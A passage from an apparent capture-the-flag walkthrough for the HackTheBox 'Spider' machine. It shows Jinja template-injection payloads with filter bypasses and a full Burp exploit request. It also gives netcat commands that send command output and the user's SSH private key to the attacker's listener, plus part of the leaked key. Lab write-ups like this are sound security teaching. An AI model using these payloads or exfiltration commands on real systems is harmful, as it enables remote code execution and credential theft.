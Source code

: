 ![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/Spider_7.png?raw=true) 



```
(1) {{ }} <-- Normal SSTI template 
(2) {% include %} <-- We use this to include something; in our case, a call to a function 
(3) {{request.application.__globals__.__builtins__.__import__("os").system("<some command>")}} <-- SSTI RCE template
(4) {% include request.application.__globals__.__builtins__.__import__("os").system("<some command>") %} <-- combining 2, 3 to bypass {{}} filter
(5) {% include request["application"]["__globals__"]["__builtins__"]["__import__"]("os")["system"]("<someCommand") %} <-- 4, bypassing . filter
(6) {% include request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["system"]("<someCommand>") %} <-- 5, bypass _ filter via hex
```

Now that we have our payload, we should use Burp's Repeater function to make our lives easier. To test the payload, we will use a sleep command to replace the `<someCommand>` part of my payload. Our Burp Repeater request looks like this:

```http
POST /a1836bb97e5f4ce6b3e8f25693c1a16c.unfinished.supportportal HTTP/1.1
Host: spider.htb
Content-Length: 166
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://spider.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://spider.htb/a1836bb97e5f4ce6b3e8f25693c1a16c.unfinished.supportportal
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJjYXJ0X2l0ZW1zIjpbXSwidXVpZCI6IjEyOWY2MGVhLTMwY2YtNDA2NS1hZmI5LTZiZTQ1YWQzOGI3MyJ9.YYBDyA.3WHcEPN_Anplrc-JBTiCAwDO4LY
Connection: close

contact={% include request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["system"]("sleep 5") %}&message=a
```

And the sleep test works! Remember that SSH is running, so let's hope that we're a user. Sending a `whoami | netcat 10\x2e10\x2e16\x2e\18 4444` in our payload with a netcat listener on 4444 via `netcat -nvlp 4444` on our host machine shows us that we are `chiv`. So we can try reading our ssh key. Once again, we have to set up a listener and use `cat ~/.ssh/id_rsa | netcat 10\x2e10\x2e16\x2e\18 4444` in our payload to get the key.

```
Ncat: Connection from 10.10.10.243:55590.                                                              
-----BEGIN RSA PRIVATE KEY-----                                                                        
MIIEpAIBAAKCAQEAmGvQ3kClVX7pOTDIdNTsQ5EzQl+ZLbpRwDgicM4RuWDvDqjV                                       
gjWRBF5B75h/aXjIwUnMXA7XimrfoudDzjynegpGDZL2LHLsVnTkYwDq+o/MnkpS                                       
U7tVc2i/LtGvrobrzNRFX8taAOQ561iH9xnR2pPGwHSF1/rHQqaikl9t85ESdrp9                                       
MI+JsgXF4qwdo/zrgxGdcOa7zq6zlnwYlY2zPZZjHYxrrwbJiD7H2pQNiegBQgu7                                       
```